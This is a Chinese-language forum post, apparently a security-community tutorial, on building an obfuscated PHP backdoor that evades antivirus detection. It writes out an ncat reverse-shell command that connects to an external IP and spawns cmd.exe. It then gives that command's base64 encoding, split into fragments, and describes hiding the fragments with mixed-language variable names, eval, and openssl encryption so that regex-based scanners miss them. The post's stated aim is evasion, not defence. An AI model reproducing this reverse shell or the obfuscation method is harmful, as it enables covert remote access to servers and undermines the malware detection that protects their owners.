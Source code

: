 0x00 前言
=======

今天分享一个 PHP 后门混淆的创作流程，主要遵循以下规则：

1、使用多种不同国家的语言

2、所有 php 代码和系统执行命令都要做混淆

3、变量名中可以添加下划线等特殊字符，比如：

```php
$最後の4
$最後の3
$最後の_3
$最_後の1
```

0x01 开始制作PHP混淆后门
================

我们以 ncat.exe 为例，比如命令：

```php
system("start /b ncat.exe 192.168.245.213 443 -e cmd.exe");
```

首先对上面的命令进行 base64 编码，编码后的文本：

```php
c3lzdGVtKCJzdGFydCAvYiBuY2F0LmV4ZSAxOTIuMTY4LjI0NS4yMTMgNDQzIC1lIGNtZC5leGUiKTs=
```

对于 base64 编码而言，最后的 = 号是其特征，我们可以将其删除，也不会有什么影响，接下来可以将上面的字符串进行分割，比如：

```php
c3lzdGVtKCJ || zdGFydCA || vYiBuY2F0LmV4ZS || AxOTIuMTY4L || jI0NS4 || yMTMgNDQzIC1l || IGNtZC5leGUiKTs
```

然后将分割后的字符串嵌入到脚本中，如图：

![1.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-4e0f3c952d9996b2f50a7ac7713c669648c8ee56.png)

以上是我们最终输出的脚本，红框中标注的就是我们需要执行的命令进行 base64 编码然后分割的部分。

接下来基于这个脚本来进行介绍，下图中标注的部分是对 base64 解码函数的分割混淆：

![2.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-b3e3368ddde6eaf98993c54d2cd2e07c44d101b2.png)

如何将分割后的字符串拼接起来呢？请看下图：

![3.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-5902e26a11d1bd03019ec366457628da80bb9b1c.png)

最后是命令执行参数部分的混淆，如图：

![4.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-24683aa0a016e1cd22f412e5d7753b14bfca8186.png)

从脚本可以看到，变量和参数值之间不断的变换，从而达到混淆的目的。最后通过 eval 来执行解码后的命令：

![5.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-3d7d127a4e085e07825a391fc3a88f6aa6ec3922.png)

最后的执行效果：

![6.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-37d2c0c5513651abfe5e9513ad1d453f0c5b7b13.png)

如果目标启用了 openssl 的加密扩展，我们可以将其润色一下，如图：

![7.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-571ea9e767a3acc6e038a6b51819e62493f25332.png)

我们首先将之前处理好的脚本进行 base64 编码，来预防加密过程中出现错误，然后使用 openssl 的扩展进行加密，在目标服务器上使用时进行解密执行即可，如图：

![8.png](https://shs3.b.qianxin.com/attack_forum/2022/06/attach-698167f25ccd74c4ec979e0ca4fe7b767e30f6b2.png)

到这个整个混淆的过程就结束了。

0x02 总结
=======

混淆是一门艺术，通过各种变化来实现脚本的免杀，后门查杀通常是使用正则表达式来进行静态匹配，而绕过大量已有正则的覆盖，就能实现免杀的效果，当然，这种方式也可能成为查杀工具的养料，自己学会变换的核心原理，就能实现真正意义上的免杀。
